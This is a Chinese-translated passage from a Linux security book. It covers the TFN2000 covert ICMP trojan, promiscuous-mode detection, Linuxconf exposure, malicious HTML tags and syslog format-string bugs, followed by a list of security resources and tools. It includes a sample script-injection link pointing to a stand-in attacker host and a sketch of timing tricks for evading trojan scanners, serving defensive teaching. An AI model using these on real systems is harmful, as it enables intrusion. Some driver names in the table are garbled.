检测 TFN2000 可能在系统中运行的最简单方法是检测网络接口是否处于混杂模式。虽然调用 `ifconfig` 如此简单，但这项重要检查很少被执行。现在是执行它的时候了。该技术在第 393 页的“检测处于混杂模式的网络接口卡”（Detecting Promiscuous Network Interface Cards）和第 397 页的“寻找处于混杂模式的进程”（Finding Promiscuous Processes）中有讨论，这些章节涵盖了自动检测此问题并发出警报（包括向你发送寻呼通知）的方法。

> 在 Red Hat 系统（以及可能其他 Linux 版本）上，`ifconfig` 程序无法指示网络接口处于混杂模式。此处引用的章节提供了更多细节，并引用了一个能够检测具有处于混杂模式接口的程序的工具，即使在存在此 bug 的 Linux 系统上也是如此。

## B.25 隐蔽特洛伊木马

**危险等级** ☠☠☠☠

越来越多的系统管理员现在正在扫描自己的系统，查找可能在特定端口上监听以等待指令的特洛伊木马。一些流行特洛伊木马的默认端口号众所周知；第 80 页“关闭不需要的服务”中讨论的 `ports` 程序将识别其中一些并生成警报。当然，对于黑客来说，修改监听端口是轻而易举的事。`ports` 程序通过标记任何处于监听状态的高编号端口来帮助检测这种情况，因为监听状态是专属于服务器的。合法服务器几乎总是位于众所周知的端口上，且几乎总是位于 1024 以下。

请注意，这里的问题是非法程序在*你的系统*上运行，并监听来自其他系统的消息（或来自你系统的出站消息）。关于其他系统上的程序扫描你的系统，请参阅第 570 页的“船长，我们正在被扫描！（隐蔽扫描）”（Captain, We’re Being Scanned! (Stealth Scans)）。

上一节中解释的 TFN2000（Tribe Flood Network 2000）特洛伊木马是隐蔽特洛伊木马的一个例子。通常，以太网网卡的硬件配置为仅“捕获”以太网中目的地址为该卡所在系统地址的数据包。这极大地减轻了系统的负载，因为该卡不会生成中断，迫使内核处理并非指向本地系统的 80–99% 的网络流量。

大多数以太网网卡都可以由任何以 root 身份运行的程序重新配置，进入所谓的混杂模式（Promiscuous mode）。这意味着该卡随后将捕获网络上的任何数据包，无论数据包中的目的地址如何。这将允许将卡置于混杂模式的程序读取网络上任何类型的任何数据包。

这就是网络嗅探器（如 `tcpdump`）和各种黑客工具的工作方式。TFN2000 将计算机的网卡置于混杂模式，并监听 ICMP 回显应答消息或各种类型的广播数据包，这些数据包包含黑客指定的要用数据包淹没的系统的指令。请注意，它在没有任何 UDP 或 TCP 端口开放的情况下执行此操作。

一旦特洛伊木马打开了套接字并将以太网卡置于混杂模式，该程序就可以将其有效 UID 或真实 UID 更改为 0（root）以外的其他值，从而使其不那么显眼，特别是如果可执行文件被重命名为 `sh` 或 `netscape` 时。

请注意，TFN2000 特洛伊木马可以完全通过 ICMP 回显应答数据包进行通信。主人（客户端）向运行在已被入侵的系统中的特洛伊木马（服务器）发送一个 ICMP 回显应答数据包，其中包含指令，包括受害者的 IP 地址和所需的攻击类型。这个单一的 ICMP 回显应答数据包包含特洛伊木马服务器对受害者机器发动攻击所需的所有信息。

此 ICMP 回显应答数据包包含一个伪造的源地址，因此只有直接从黑客系统接收该数据包的系统才可能识别出黑客的系统，但即使是这个系统也不知道黑客系统是否只是在转发数据包。黑客不会收到服务器已收到消息的确认，以保护黑客不被通过追踪确认数据包的方式发现。

### B.25.1 为什么使用 ICMP 回显应答数据包以及如何运作？

显然，像 TFN2000 这样在混杂模式下监听的特洛伊木马可以响应任何 TCP、UDP、ICMP 或任何其他类型的数据包，那么为什么要使用 ICMP 回显应答数据包呢？令人惊讶的是，回显应答数据包是对 ICMP 回显请求数据包的回复。回显请求数据包是 `ping` 用来测试与远程系统连接性所发送的。回显应答是对 `ping` 的回显请求的响应。除最严格安全的系统外，所有系统都允许其防火墙后的系统 `ping` 远程系统并接收回显应答。为了允许这样做，大多数防火墙配置为允许源自其网络外部的回显应答被转发到其网络内的任何系统。因此，防火墙不会阻止这些数据包。我钦佩想出这一点的天才。（有关黑客通过防火墙隧道以查看内部情况的其他方法，请参阅第 71 页的“穿越防火墙”（Tunneling Through Firewalls）。）

程序如何与 ICMP 回显应答数据包通信？任何将穿越网络的数据都可以用于通信，无论该数据原本打算如何使用。ICMP 回显应答数据包中有字节可供黑客放置数据。

一些安全专家提出，防火墙应检查这些数据区域，并删除对*预期用途*而言非必需的数据。这将让黑客放慢脚步大约一个星期。

然后，黑客可以在一定时间范围内利用数据包的存在或不存在作为二进制代码来传输数据，类似于莫尔斯电码。许多年前，一个保密系统的安全被突破，发送进程通过控制其访问磁盘的速率来实现这一点。接收进程以不同的安全许可级别运行，通过测量其对磁盘访问请求的响应时间来创建一个缓慢但有效的类似莫尔斯电码的机制。这被称为通信的*隐蔽通道*（covert channel）。

没有简单的规则供防火墙用来对抗此问题，除了禁止回显应答进入，从而禁用 `ping` 的使用。当然，防火墙可以将回显应答限制到防火墙内部被认为足够安全可信任的一两个系统。

> 大多数状态化防火墙足够智能，能够识别出此 ICMP 回显应答并非对回显请求的响应，并阻止它。

使用广播数据包对黑客有一个优势，即系统管理员将不知道哪个系统拥有特洛伊木马，并且它可能同时触发许多系统上的特洛伊木马。请参见第 393 页的“检测处于混杂模式的网络接口卡”和第 397 页的“寻找处于混杂模式的进程”以了解如何检测这些特洛伊木马的详细信息。第 467 页的“处理正在运行的黑客进程”（Handling Running Cracker Processes）涵盖了如果发现此类进程该怎么办。

### B.25.2 隐蔽特洛伊木马的未来方向

既然你了解了如何检测处于混杂模式的网卡，并且已经安装了用于监控此事的脚本，你安全了吗？也许现在安全。作者预测，下一波特洛伊木马将变得更加隐蔽。一种解决方案可能是它们调整内核变量以击败搜索处于混杂模式端口的代码，甚至是运行中的内核本身的代码。使用 `/dev/kmem` 和内核调试器，这很容易做到。


不过，有一种简单的方法。不要开放任何端口。这样，你的扫描就不会检测到任何东西，因为没有任何内容可供检测。该木马以 `root` 身份运行，它只是在已知的时间间隔内短暂开放端口，监听请求，然后关闭端口并回到睡眠状态，除非看到有请求。当攻击者希望木马激活时，她只需在木马预定唤醒的时间点之前，立即开始发送 ICMP 回显回复或类似的包。这可以容忍时钟的微小差异。

从统计上看，前面讨论的脚本恰好在该端口开放的短暂时间内进行扫描的可能性很小。攻击者可能会将你的系统时间同步到方便的互联网原子钟，以便她可以使用更小的时间窗口。如果木马每天在不规律的、只有攻击者知道的时间监测网络一秒，那么每小时一次的 Promiscuous 端口检查器每天检测到这种情况的概率仅为 0.028%。这个问题解决方案将在下一节讨论。

## B.25.3 Promiscuous 模式内核消息

一些以太网卡驱动程序会调用内核日志记录方法之一，以记录当卡片进入 Promiscuous 模式时，但缺乏一致性，并且有些卡片不记录此信息。Linus？如果你的卡不属于这些卡片之一，投入少量精力修改其驱动程序，以便在启动 Promiscuous 模式时调用 `printk()` 可能是值得的。这些驱动程序位于 `drivers/net`。在 2.2.12-20 内核中，消息如下表 B.1 所示。

这些消息可以通过 `syslog` 的日志文件进行扫描，你可以安排通过电子邮件和寻呼机接收通知。这些技术在第 358 页的“Paging the SysAdmin: Cracking in Progress!”中解释。当然，攻击者可以修改内核来绕过这些消息。

## B.26 Linuxconf 通过 TCP 端口 98


`Linuxconf` 是 Linux 的一个基于 GUI 的配置工具，允许 SysAdmin 配置网络、打印机服务等事项。除了 `root` 能够通过命令 `linuxconf` 启动它之外，它还通过 TCP 端口 98 提供 http 请求。它的实现很好，易于使用，并且具有与近期基于 Windows 的配置工具相似的格式，以方便人们过渡到 Linux。在所有已知的发行版中，默认情况下 `Linuxconf` 配置为*不*监听此端口，因此这种漏洞只有在更改此默认设置时才会发生。

然而，`root` 可以启用它从指定的系统或网络接受端口 98 上的请求。一旦完成，进行任何所需更改都不需要密码。当然，程序无法检测从该远程系统与其交互的人是否为 `root`，因此，除非该系统中所有用户都是可信的，否则这是一个漏洞。此外，这使系统容易受到 IP 地址欺骗的攻击。

### 表 B.1 Promiscuous 变体

| 驱动程序文件 | 消息 |
|---|---|
| 3c515.c | `printk("%s: Setting promiscuous mode.\n", dev->name);` |
| 3c59x.c | `printk(KERN_NOTICE "%s: Setting promiscuous mode.\n"` |
| 82596.c | `printk("%s: set multicast list, %d entries, promise $s, allmulti $s\n",` |
| ariadne.c and at1700.c | `printk("%s: Promiscuous mode enabled.\n", dev->name)` |
| atarirance.c and basterlate.c | `DPRINTK ( 1, ( "%s: Promiscuous mode enabled.\n", dev->name ) );` |
| eepro.c | `printk("%s: promiscuous mode enabled.\n", dev->name);` |
| epic100.c | `printk(KERN_INFO "%s: Promiscuous mode enabled.\n", dev->name);` |
| lance.c | `printk("%s: Promiscuous mode enabled.\n", dev->name);` |
| ni5010.c | `PRINTK(KERN_DEBUG "%s: Entering promiscuous mode\n", dev->name));` |
| ni52.c | `printk("%s: switching to promisc. mode\n", dev->name);` |
| pcnet32.c | `printk("%s: Promiscuous mode enabled.\n", dev->name);` |
| rt13139_c_sis900_c, via-rhine.c, and yellowfin.c | `printk(KERN_NOTICE"%s: Promiscuous mode enabled.\n", dev->name);` |
| tulip.c | `printk(KERN_INFO "%s: Promiscuous mode enabled.\n", dev->name);` |

接下来，对于某些操作，它会请求 `root` 的密码。因为它使用的是 http 而不是 https，所以该密码将以明文形式通过网络传输。这使得 `root` 的密码容易受到嗅探攻击。最后，最近的报告指出，当 `Linuxconf` 监听 TCP 端口 98 时存在另一种可能的漏洞。目前尚未证明该漏洞。

鉴于这些问题，建议在受保护的网络上禁用网络访问。此外，建议组织的防火墙阻止来自互联网的针对 TCP 端口 98 的请求，以增加“安全环”保护。

## B.27 恶意的 HTML 标签和脚本

危险级别 ☠☠☠

2000 年初，CERT 协调中心报告称，恶意的 HTML 标签或脚本可能会导致入侵 Web 浏览器所在的计算机，甚至攻击其他服务器。可能用于此目的标签包括 `<SCRIPT>`、`<APPLET>`、`<OBJECT>` 和 `<EMBED>`。

服务器不应接受来自不可信来源的包含这些标签的 HTML。如果可能，在浏览器中禁用这些功能以提高安全性是个非常好的主意。当然，这将结束所有这些很酷的 Java 黑客行为。其他标签，如 `<FORM>` 标签，也可能被滥用。

典型的攻击如下所示。

```html
<A HREF="http://pentacorp.com/comment.cgi?mycomment=<SCRIPT SRC='http://cracker.com/exploit'Click for image</A>
```

从 4.x 版本开始，Netscape 试图通过要求脚本内部的 URL 与包含该脚本的页面在同一系统上来限制这些攻击。大多数主要站点都会过滤掉从站点外部组装数据生成的页面中可能包含的不可信标签。

> 根据 SANS 在 2000 年 3 月 23 日的报告，deja.com 提供的 Usenet 新闻帖子中仍然没有过滤这些可能的攻击。

## B.28 syslog() 的格式问题


`syslog()` 例程使程序能够生成将被 `syslogd`（标准的 Linux 错误日志记录机制）记录到磁盘的条目。它的第一个参数是优先级，随后的参数解释方式类似于 `printf()` 或 `sprintf()`。对于不变的消息，第二个参数可以是简单的字符串常量。不幸的是，一些标准 Linux 程序反而使用包含任意用户数据的字符串变量作为第二个参数。这个问题是由 Linux 审计项目发现的，该项目肯定会发现其他问题和修复方案；针对 BSD UNIX 代码的类似项目相当成功。

这个问题也可能存在于使用 `printf()` 家族其他变体的特权程序中，包括 `fprintf()`、`sprintf()`，甚至 `v*printf()`。这允许各种攻击，包括缓冲区溢出攻击。熟练的攻击者还可能提供导致任意内存区域（可能包含机密数据）打印到可能对所有人可读的日志文件中的“格式字符串”。目前，受影响程序的名称尚未公开。在系统源代码树的根目录下调用以下 `find` 命令，将找到包含此问题的大多数行；适当的目录通常是 `/usr/src`。

```bash
find . -name '*. [hc]' -print | xargs -n 50 grep \
'syslog *([^"]*, *[^"`]) *([^"`])*' /dev/null
```

如你所见，它找到每个 C 源文件和包含文件（`*. [hc]`）并调用 `grep` 查找其中仅以两个参数调用 `syslog()` 且第二个参数不是字符串字面量的文件。它使用 `xargs` 每 50 个源文件仅 fork 一次 `grep`，而不是每个文件都 fork 一次。这显著提高了性能。

> 已知 `gdm`、`rpc.statd` 和 vopmail 的 `vchkpw`（4.8 版本之前）存在此格式问题。`inn` 程序和其他 RPC 程序也可能存在此问题，其他程序也可能存在。


# 获取最新入侵与防御信息的互联网资源

本附录列出了关于最新入侵和防御信息的各种互联网资源，以及那些变化迅速、篇幅超出书籍范围或未能获得使用许可的补充来源信息和文档。这也将使您能够迅速获取安全漏洞的修复方法，了解提升安全性的新工具，并找到现有软件的支持。攻击者也在阅读这些列表；你也应该这么做。请记住，攻击者知道你在寻找这些站点寻求帮助。始终存在攻击者已入侵这些站点或在邮件列表中散布虚假信息的可能性。

通常，密封容器中的 CD-ROM 被篡改的可能性要小得多，尽管这位作者曾阅读到，微软广泛分发的某张 CD-ROM 中包含木马，当然其他供应商也遭受过此类问题。无疑，检查 MD5 或其他已发布的校验和会提高你的信心。等待几天，直到有多个可信来源推荐某个补丁后再进行安装。我建议在等待几天下，以防有人在这些站点贡献内容时说：“等等！这是个陷阱！”因为许多开源工具可以从多个站点获取，为了更安全，请从多个站点下载你需要的工具并进行逐字节比较，或使用 `md5sum` 生成难以篡改的消息摘要，以防范攻击者入侵站点并植入木马。

如果补丁的紧迫性不足以要求立即安装，请等待几天，再次下载，并假设最初的副本可能已被入侵破坏且该问题届时已得到处理，将其与早期副本进行比较。当你尝试这些站点时，其中一些可能已经“失效”；请查看我的网站以获取更新。此外，也要警惕所谓的“新版改进版”，它们可能含有木马。事实上，这在 1998 年左右确实发生过于一款流行的安全工具身上。

这些含有木马的“新版改进版”陷阱和“请走此路”陷阱，当然不仅限于计算机或古代神话。我发现以下这起盗窃案既巧妙又冒险：

大多数银行都提供夜间存款箱，小型企业可以在商店关门且清点完现金后，将装有当日现金收入的帆布包放入其中。自然，此时银行已经关门。在某个特定的夜晚，商家发现银行存款箱门上挂着一块牌子，上面写着：“故障：请将存款交给警卫。”存款箱旁站着一名神情严肃、制服笔挺的银行警卫，手里拿着一个大帆布包，看起来非常像警卫。

制服和银行用品在任何大城市都很容易买到。因此，这些窃贼卷走了数万美元，并且足够聪明，没有再次实施同样的伎俩。

## C.1 邮件列表——必订项

这些邮件列表是新利用方法和防御措施首次向世界公布的地方。当然，攻击者也会阅读这些列表，并立即尝试每种新的利用方法，因此立即响应这些报告的利用方法是至关重要的。我认为，及时订阅这些列表并阅读电子邮件对于维护安全是**强制性的**。这位作者认为，苦难降临之处，律师随之而来，确保有人为此买单。迄今为止，与网络相关的主要诉讼案件非常稀少。随着网络的成熟并成为日常生活的重要组成部分，这一情况可能会改变。

> 据我了解，美国泛美航空公司（PAN AM Airlines）曾是美国最大的航空公司之一，如今不复存在的主要原因，字面上讲是被乘客亲友起诉致此。1988 年，恐怖分子在苏格兰洛克比上空将 103 号航班炸毁。

尽管有强有力的证据表明，炸弹是由受雇于利比亚情报局并渗透到马耳他机场安全系统的恐怖分子 Fhimah 和 al-Megrahi 放置的，但泛美航空公司仍被成功起诉。

这些“关键”安全邮件列表每天大约产生 1,000 行电子邮件，这可能是令人沮丧的。那是 20 页的内容。大多数列表都有“摘要”选项，可以将单独的消息组合成更少但更大的消息。大多数列表开头都有一个目录，可以快速扫描以查找提及与 Linux 相关的常见问题或跨平台问题的问题。对于维护多种平台的大型机构，关于其他平台的安全讨论，特别是各种 UNIX 供应商以及 Windows 和 Windows NT 的变化，也将非常有用。

### C.1.1 美国政府 CERT 协调中心

`CERT` 协调中心是美国政府的计算机安全事务中心，特别是针对事件、利用方法和响应。`CERT` 最初代表计算机应急响应团队（Computer Emergency Response Team）。它曾经并且仍由美国国防部的国防高级研究计划局（`DARPA`，前身为 `ARPA`）资助。它由卡内基梅隆大学管理，成立于 1988 年 12 月，当时 Morris 蠕虫导致约 10% 的互联网连接计算机瘫痪。他们提供出色的安全问题分析及通知，经常提供已报告问题的修复补丁。

订阅方法：

```bash
echo hi | Mail -s 'SUBSCRIBE you@somewhere.com' cert-advisory-request@cert.org
```

此外，他们的网站位于

`www.cert.org/`

### C.1.2 美国政府 CIAC

这是另一个不错的邮件列表。通过向 `majordomo@tholia.llnl.gov` 发送电子邮件进行订阅，并在邮件正文中包含以下内容：

```bash
subscribe ciac-bulletin
```

`CIAC` 还在 `http://ciac.llnl.gov/` 提供了网站。

他们关于保护 Web 服务器站点的公告很有用，不过读完本书后，它应该看起来很熟悉。你可以在这里找到它：

`http://ciac.llnl.gov/ciac/bulletins/j-042.shtml`

### C.1.3 Bugtraq

这个邮件列表让订阅者了解最新的漏洞、修复或变通方法。它涵盖 Linux、UNIX、Windows 以及较少见的操作系统。此外，它还涵盖独立于操作系统“发行版”分发的程序，甚至涵盖商业产品。这是我最喜欢的安全邮件列表。它通常每两到五天发送一次，每封邮件大约包含 1,000 行内容。然而，它会在开头提供一个简短的目录，并对每个将要讨论的项目进行出色描述，因此你可以在不到 30 秒内决定其中任何一个问题是否影响你的配置。

在撰写此文时，今天的目录包括关于 Linux 2.2.x 内核 IP Masquerading 代码漏洞的两个章节，该漏洞允许任何远程入侵者通过防火墙进行隧道传输。任何被 Masquerading 到外部的 UDP 流量都容易受到攻击，包括 DNS 和 NetBIOS。感兴趣吗？

要订阅，请向 `LISTSERV@NETSPACE.ORG` 发送电子邮件，邮件正文为：

```text
SUBSCRIBE BUGTRAQ
```

使用该列表的完整说明（包括发布）将发送给你。

### C.1.4 ISS' X-Force

互联网安全系统公司（Internet Security Systems，简称 ISS）是一家位于佐治亚州亚特兰大的公司，提供安全产品和咨询。该公司拥有非常知识渊博的人员，是世界上顶级安全公司之一；ISS 免费提供大量安全信息。其高层之一 Mike Warfield 是本书的技术审阅者。

当邮件列表中报告漏洞时，通常会提供修复或变通方法。其威胁和漏洞数据库名为 X-Force，该名称出现在电子邮件中。可以通过以下方式使用 ISS Security Alert Summary 进行订阅：

```bash
echo subscribe alert you@isp.com \
    | Mail -s '' majordomo@iss.net
```

此外，ISS 拥有一个免费的网站，其中包含一个大型可搜索的漏洞数据库，位于

`www.iss.net/security_center/`

### C.1.5 mail-abuse.org 站点

该站点致力于阻止垃圾邮件——既包括如何阻止垃圾邮件进入你的站点，也包括如何测试你的站点并配置它，使其不将垃圾邮件中继（转发）到其他站点。你可以通过

`www.mail-abuse.org/` 访问它。

如果你通过 `telnet` 访问

`mail-abuse.org`

它将测试你的邮件服务器，并报告它是否表现出愿意向第三方中继垃圾邮件。所谓“表现出”，是指它接受此类请求。有些邮件服务器会接受垃圾邮件然后将其删除。

## C.2 邮件列表——可选项

这些邮件列表也提供有用的信息，但我认为它们是可选的，要么是因为它们的信息会被归纳到必选列表中，要么是因为与信息明确相关的安全漏洞和解决方案的“信噪比”不符合我的偏好。

### C.2.1 SSH 邮件列表

你可以通过以下命令订阅 SSH 公告邮件列表。该列表面向负责维护 SSH 的用户或系统管理员。（在同一站点还有另一个名为“ssh”的列表，供希望参与开发、就改进措施进行讨论或充当 Beta 测试人员的人员使用。）

```
echo 'subscribe ssh-announce' | Mail -s '' majordomo@clinet.fi
```

### C.2.2 Network World Fusion 邮件列表

Network World Fusion 偶尔会提供有关网络安全的消息，这些信息可能很有趣。这些报道通常比较笼统，但在向管理层提供总体统计数据以证明安全工作预算的合理性时，可能会很有帮助。其地址为

```
www.nwfusion.com/newsletters/sec/
```

## C.3 新闻组

Linux 安全的主要 Usenet 新闻组是

```
comp.os.linux.security
```

由于 Linux 与 UNIX 有很多共同点，UNIX 安全组也是一个值得关注的组。可以在

```
comp.unix.security
```

找到它。


CERT 的公告和摘要也在此发布，同时也发布在其网站 http://www.cert.org/ 上，并发送给订阅 CERT 邮件列表的人员。

```
comp.security.announce
```

## C.4 安全站点 URL

随着 Linux 变得越来越流行，提供有关在 Linux 系统上维护安全技术帮助的网站数量大大增加。你始终要小心，避免落入黑客网站，尽管这通常是很明显的。但我建议偶尔浏览一下黑客网站，以便更好地了解敌人。

### C.4.1 Kurt Seifried 的网站

Kurt 是市面上最顶尖的安全顾问之一。不要错过他的网站（`www.seifried.org`）。请特别关注他的《Linux 管理员安全指南》。

www.seifried.org/lasg/

### C.4.2 Security Focus

Security Focus 是一个安全信息来源。

www.securityfocus.com/

### C.4.3 取证

以下网站提供用于计算机取证分析的工具和建议。它们将帮助你找到是谁入侵了你的系统以及如何入侵的线索。这些网站由 Dan Farber 和 Wietse Venema 管理。他们的工具非常出色，他们是最好的两位专家。

www.fish.com/forensics/

www.porcupine.org/forensics/

### C.4.4 The Hackerwhacker 网站

该网站提供一次免费的安全扫描服务。主要查看哪些端口有程序在监听。其 HTML 报告解释了各种服务的危险程度，并链接到详细的说明。额外使用价格合理。它还提供了一些安全站点的链接。

www.hackerwhacker.com/

### C.4.5 黑客端口号

该网站列出了各种端口的用途，包括黑客端口。它相当完整。

http://advice.networkice.com/advice/Exploits/Ports/

### C.4.6 理解 Linux 病毒

该网站提供了一些 Linux 和 UNIX 病毒的描述及其工作原理。这基于“基于混淆的安全性”并不是好的安全性这一信念，并旨在帮助识别当这种情况发生在您身上时。

www.big.net.au/~silvio/

### C.4.7 FBI 的 NIPC

该网站属于 FBI 的国家基础设施保护中心。该网站仍在发展中。

www.nipc.gov/

### C.4.8 FIRST

事件和安全响应团队论坛（FIRST）是一个由致力于确保组织安全的人员组成的协会，其中许多是大型组织。一些组织会发现加入是有价值的。

www.first.org/

### C.4.9 Linux 每周新闻安全页面

Linux Weekly News 网站有一个经常更新的安全页面，可以从主页面访问。

www.lwn.net/

### C.4.10 Linux Today

Linux Today 网站有一些有用的安全链接。

www.linuxtoday.com/

### C.4.11 桑斯研究所

桑斯研究所（SANS Institute）在此提及仅为求全。

www.sans.org/

它列出了其认为与互联网连接的系统中的前 10 大漏洞及一些防御措施，尽管其中并非所有都适用于 Linux 系统。

www.sans.org/top10.htm

## C.5 安全工具 URL

这些 URL 涵盖了提供本书中讨论的各种工具的站点。其中大多数工具可以免费下载和使用。

### C.5.1 作者网站

Fly-By-Day Consulting, Inc. (FBD) 为本书购买者维护了一个网站，用于下载由我（作为 FBD 员工）开发的工具的更新版本以及供其使用的开源工具。这些工具也可在随书附带的 CD-ROM 上找到。此外，网站上还会有勘误表和其他有用信息。

请注意，本许可证覆盖了由我（或以其他方式由 FBD 提供）开发的大多数工具，仅允许在合法持有本许可下书籍副本的人员使用。如果适用法律未规定在此条件下分发或使用，或如果您不同意这些条件，则您或您的公司无法使用。（我为大写道歉，但这是法律要求的。）

本书、CD-ROM 和网站中的软件及其他信息由许可方 Fly-By-Day Consulting, Inc. “按原样”提供，并且不保证任何明示或暗示的保证，包括但不限于适销性和特定用途适用性的暗示保证。

关于软件和信息的质量和运行的全部风险由被许可人承担。如果软件或信息证明有缺陷，被许可人单独将承担所有必要的服务、更正、维修或其使用或尝试使用的后果的费用。

在任何情况下，许可方、贡献者或出版商均不对被许可人或任何第三方承担任何直接、间接、偶然、特殊、惩罚性或后果性损害（包括但不限于替代商品或服务的采购；使用、数据或利润的损失，或业务中断，不良宣传或侵犯第三方权利或类似情况），无论因何种原因，并基于任何责任理论，无论是合同、严格责任还是侵权（包括疏忽或其他），因以某种方式使用本软件而产生，即使已被告知此类损害的可能性。

许可方没有义务提供软件维护或支持。

不同意这些条款的人禁止复制或使用该信息或软件。CD-ROM 和网站上的许多软件是开源软件，根据自由软件基金会（Free Software Foundation）的 GPL 或 LGPL，或加州大学董事会许可。通过使用任何软件或信息，您同意这些条款，并且美国乔治亚州的州和地方法院拥有唯一的管辖权。

与从互联网下载的任何其他软件一样，您需要自行确认软件不包含任何特洛伊木马。显然，该网站将成为黑客活动的激烈目标，其中一些可能会成功。检查每个下载文件的签名至关重要。

网站位于

`www.realworldlinuxsecurity.com/`

还有一个镜像站点，带宽连接更高，位于

`www.mindSpring.com/~cavu/rwls/`

为了防止非本书读者下载文件，FTP 访问可能需要提供账户和密码。如果要求提供，账户和密码将是

`penguin`

`WorldDom`

真正多疑的人会从两个站点下载他们想要的对象并进行比较，基于两个站点都不太可能同时被攻破的理论，并且肯定会验证 GPG 签名。作者可以通过电子邮件 book@eversecurelinux.com 联系；如果内容值得，可以使用 GPG 加密和签名。

### C.5.2 下载安全外壳（SSH）

您可以从以下任何站点下载最新版本的 Secure Shell (SSH)：

- `ftp://www.ibiblio.org/pub/packages/security/ssh/`（OpenSSH 下载）

- `www.ssh.fi`

- `www.openssh.com`（这是无限制版本。）

- `www.chiark.greenend.org.uk/~sgtatham/putty/`（GUI Windows）

- `pro.wanadoo.fr/chombier/`（Mac）

- `www.lexa.ru/sos`（Windows 版 ssh1 和 ssh2）

- `www.cl.cam.ac.uk/~fapp2/software/java-ssh`（基于 Java 的 ssh）

- `www.lysator.liu.se/~jonasw/about`（MacOS ssh；仅限美国以外地区）

- `www.er6.eng.ohio-state.edu/~jonesd/ssh`（VMS 客户端）

- `www.free.lp.se/fish`（VMS 客户端）

- `www.isaac.cs.berkeley.edu/pilot`（Palm Pilot）

- `ftp://hobbes.nmsu.edu/pub/os2/apps/internet/telnet/client/ssh-1.2.27-b1.zip`（OS2）

- `www.ssh.org/patches/patch-ssh-1.2.27-rsaref.buffer.overflow`

### C.5.2 SSH 文档

此外，以下网站提供了大量的 SSH 文档，包括如何使用 SSH、“公钥加密 101”以及一些链接。

http://ns.oregon.edu/pgpssh/sshstart.html

### C.5.3 下载 Bastille Linux

Bastille Linux 是一个项目，它创建了一个脚本，系统管理员可以下载并运行该脚本来引导他们执行加固系统的步骤。在本文撰写时，它仅支持 Red Hat Linux 6.0 到 7.1 以及 Mandrake 6.0 到 8.0。

http://bastille-linux.org/

### C.5.4 下载 SuSE 加固脚本

有一个脚本可用于加固 SuSE 安装（6.1–8.0 及更高版本），该脚本可在 CD-ROM 及以下地址获取：

www.suse.de/~marc/harden_suse-2.4.tar.gz

### C.5.5 下载 Linux 入侵检测系统

Linux 入侵检测系统可用于防止和检测（已成功的）入侵尝试。它使用新的 CAP（能力）系统调用来限制 root 的权限。值得一试。

- www.liids.org/

- ftp://ftp.liids.org/


### C.5.6 Pretty Good Privacy (PGP)

Pretty Good Privacy 软件（PGP）可用于保护电子邮件、磁盘文件以及几乎任何其他数据，但不包括 TCP 会话或 UDP 数据包。（TCP 会话可以通过 SSH 相当不错地得到保护。）以下网站为美国公民和在美国的永久居民，以及加拿大的公民提供 PGP 的下载。过去，其他人曾在美国以外地区找到网站，或获得了包含源代码的 Zimmermann 的书（该书目前已绝版）。

请注意，邮寄印刷版的源代码到海外是合法的，但包含相同信息的磁带则不合法。早在 2000 年初，美国政府开始放宽对加密软件的出口管制，因此当你阅读此内容时，这些限制可能已不再适用。

我记得这些出口管制大约在 1981 年首次生效，当时我公司 Onyx 不得不将我们的 UNIX 发行版拆分为两个版本：一个完整的国内版本，以及一个不包含解密库和程序的国际化版本。

请注意，单向加密是被允许的（因为它不能用于“隐藏”信息），所以 UNIX/Linux 密码加密仍然是合法的。

可以从以下站点下载 PGP：

`http://web.mit.edu/network/pgp.html`

### C.5.7 GNU 隐私守卫 (GPG)

GNU 隐私守卫（GPG）是自由软件基金会（Free Software Foundation）对 Philip Zimmermann 的 Pretty Good Privacy 的开源实现。它首次发布于 1999 年底。它不受 PGP 许可和出口限制的影响。任何人都可以合法地从以下地址下载：

`www.gnupg.org/`

### C.5.8 tcpdump 实用工具

美国政府的能源和核研究实验室之一，劳伦斯伯克利实验室（LBL），提供 `tcpdump` Linux/UNIX 实用工具。该工具是一种嗅探器，旨在供系统管理员分析其计算机和网络中的通用网络问题和安全问题。因此，它显示的数据包信息不足以，例如，查看邮件内容（尽管修改这一点很容易）。我发现在开发客户端/服务器软件期间，它对于调试也相当有用。`tcpdump` 程序及相关软件可以从下列 URL 列出的实验室下载。它设置和使用起来很容易。

- `ftp://ftp.ee.lbl.gov/libpcap.tar.Z`
- `ftp://ftp.ee.lbl.gov/pcapture-0.2.1.tar.Z`
- `ftp://ftp.ee.lbl.gov/tcpdump-3.4.tar.Z`

### C.5.9 基于图形界面的 Ethereal 嗅探器

这是一个开源的基于图形界面的嗅探器，除了 `tcpdump` 的“显示每个数据包”理念外，它还允许轻松监视特定会话。它允许观察实际数据，因此在使用其时诚实性很重要。它甚至允许解压缩 gzipped 流。它是作者最喜欢的嗅探器。

它需要 `GTK+` 和 `libpcap`，以及 `Perl`。如果需要解压缩，则还需要 `zlib`。这些可以从以下地址下载：

- `http://ethereal.zing.org/`
- `ftp://ftp.ee.lbl.gov/`
- `www.gtk.org/`

### C.5.10 sniffit 实用工具

此实用工具比 `tcpdump` 更复杂，并且不仅显示报头，还显示数据包的内容。虽然这可以用于不道德的目的，但黑客反正会那样做。

`http://sniffit.rug.ac.be/~coder/sniffit/sniffit.html`

### C.5.11 下载 Tripwire 实用工具

`Tripwire` 是一个强大但难以使用的工具，它计算系统上你感兴趣的每个文件（例如 `/etc` 中的系统配置文件、`/bin` 和 `/usr/bin` 中的系统程序以及用户账户）的难以伪造的校验和。它允许你在任何时候查看任何文件是否已被修改。

目前可以在以下站点获取 `Tripwire` 的免费版本。也有付费提供的增强版程序。

`www.tripwire.com/downloads/`

你还可以查看相关的开源开发站点。

`http://tripwire.org/`

### C.5.12 下载 Tripwire 的替代工具

这些 `Tripwire` 的替代工具可能更简单、更易于使用，同时提供至少相同级别的安全性。

`samhain` 文件系统完整性检查器可以从以下地址下载：

`www.la-samna.de/samhain/index.html`

`AIDE` 可以从以下地址下载：

`ftp://ftp.linux.hr/pub/aide/`

当前的 `AIDE` 版本是

`aide-0.7.tar.gz`

`AIDE` 手册可以从以下地址下载：

`www.cs.tut.fi/~rammer/aide/manual.html`

`Gog&Magog` 可以从以下地址下载：

`www.multimania.com/cparisel/gog/`

以及 `Sentinel`，它有一个不错的可选图形界面前端，可以从以下地址下载：

`http://zurk.netpedia.net/zfile.html`

`SuSEauditdisk` 从可引导磁盘运行，提供非常安全的完整性检查。它是 SuSE 的标准配置，并且可以轻松地移植到其他发行版。从以下地址下载：

`www.suse.de/~marc/`

### C.5.13 下载 Nessus 安全审计器

`Nessus` 是一个强大的工具，用于扫描（探测）网络中的开放端口，更重要的是，用于检测这些服务中的漏洞。

`www.nessus.org/`

